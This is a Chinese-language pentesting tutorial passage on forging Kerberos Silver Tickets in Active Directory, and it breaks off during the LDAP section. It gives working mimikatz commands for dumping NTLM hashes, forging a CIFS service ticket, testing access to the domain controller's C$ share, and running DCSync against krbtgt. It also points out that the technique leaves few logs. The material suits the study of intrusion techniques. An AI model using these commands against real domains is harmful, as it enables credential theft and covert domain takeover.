 #### 白银票据 - Silver Ticket

不同于黄金票据伪造TGT，白银票据伪造的时TGS，通过已知的授权服务密码生成一张可以访问该服务的TGT。因为在票据生成过程中不需要使用KDC，所以可以绕过域控，很少留下日志。而黄金票据在利用过程中需要由KDC颁发TGT，并且在生成伪造的TGT的20分钟内，TGS不会对该TGT的真伪进行校验。

白银票据依赖于服务账号的密码散列值，这不同于黄金票价利用需要使用krbtgt账号的密码散列值，因此更加隐蔽。

银票会通过相应的服务账号来伪造TGS，例如LDAP、MSSQL、WinRM、DNS、CIFS等，范围有限，只能获取对应服务的权限，由特定的服务账号加密。

制造银票需要以下的信息：

* 域名
* 域SID
* 目标服务器的FQDN
* 可利用的服务
* 服务账号的NTLM Hash
* 需要伪造的用户名

##### 伪造CIFS银票

1. 获取服务账号的NTLM Hash

   在域控中，使用mimikatz查看服务账号的NTLM Hash：

   ```powershell
   mimikatz log "privilege::debug" "sekurlsa::logonpasswords"
   ```

   这样应该可以看到`DC$`账户的NTLM Hash。

2. 伪造银票

   接下来清空系统的票据：

   ```powershell
   klist purge
   ```

   使用mimikatz伪造银票：

   ```powershell
   kerberos::golden /domain:pentest.com /sid:S-1-5-XXXXXX-XXXXXXXX-XXXXXXXX /target:dc.pentest.com /service:cifs /rc4:XXXXXXXXXXXXX /user:dm /ptt
   ```

3. 验证权限

   ```powershell
   dir \\dc\c$
   ```

   能访问证明票据已经生效。

##### 伪造LDAP银票

1. 使用dcsync从域控获取指定用户的账号和密码散列值

   ```powershell
   lsadump::dcsync /dc:dc.pentest.com /domain:pentest.com /user:krbtgt
   ```

   如果出现`ERROR`的话，那么就说明当前权限无法进行dcsync操作。
